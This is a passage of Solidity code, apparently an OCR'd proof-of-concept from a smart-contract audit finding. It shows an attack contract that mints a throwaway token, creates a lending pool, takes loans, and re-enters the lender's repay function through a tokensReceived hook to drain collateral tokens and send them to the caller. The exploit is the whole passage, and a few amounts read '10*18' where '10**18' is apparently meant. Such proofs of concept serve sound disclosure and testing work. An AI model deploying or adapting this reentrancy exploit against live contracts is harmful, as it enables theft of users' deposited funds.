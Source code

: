 ```solidity
        collateralToken = _collateralToken;
    }

    function attack(address _collateralToken) external {
        ERC20(_collateralToken).approve(address(lender), type(uint256).max);
        // (1) Mint exploitToken
        exploitToken = new ExploitToken(1_000_000_000*10*18);
        ERC20(exploitToken).approve(address(lender), type(uint256).max);
        // (2) Create a pool of exploitTokens
         Pool memory pool = Pool({
            lender: address(this),
            loanToken: address(exploitToken),
            collateralToken: _collateralToken,
            minLoanSize: 1,
            poolBalance: 1_000_000*10*18,
            maxLoanRatio: type(uint256).max,
            auctionLength: 1 days,
            interestRate: 0,
            outstandingLoans: 0
        });
        bytes32 poolId = lender.setPool(pool);
        // (3) Take a loan of exploitTokens
        Borrow memory b = Borrow({
            poolId: poolId,
            debt: 1,
            collateral: 1_000*10**18
        });
        Borrow[] memory borrows = new Borrow[](1);
        borrows[0] = b;        
        lender.borrow(borrows);
        // (4) Take another loan of exploitTokens to increase poolBalance
        b = Borrow({
            poolId: poolId,
            debt: 1_000,
            collateral: 1
        });
        borrows = new Borrow[](1);
        borrows[0] = b;        
        lender.borrow(borrows);
        loanBorrowed = true;
        // (5) Repay the loan
        uint256 loanId = 0;
        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = loanId;
        lender.repay(loanIds);
        // (7) Send the funds back to the attacker
        ERC20(_collateralToken).transfer(msg.sender, ERC20(_collateralToken).balanceOf(address(this)));   
    }

    function tokensReceived(address from, address to, uint256 /*amount*/) external {
        if (msg.sender == address(exploitToken)) {
            if (from == address(this) && to == address(lender) && loanBorrowed) {
                // (6) Re-enter the `repay` function (10 times for POC); 
                if (i < 10) {
                    i = i + 1;                    
                    uint256 loanId = 0;
                    uint256[] memory loanIds = new uint256[](1);
                    loanIds[0] = loanId;
                    lender.repay(loanIds);
                }          
            }
        }        
```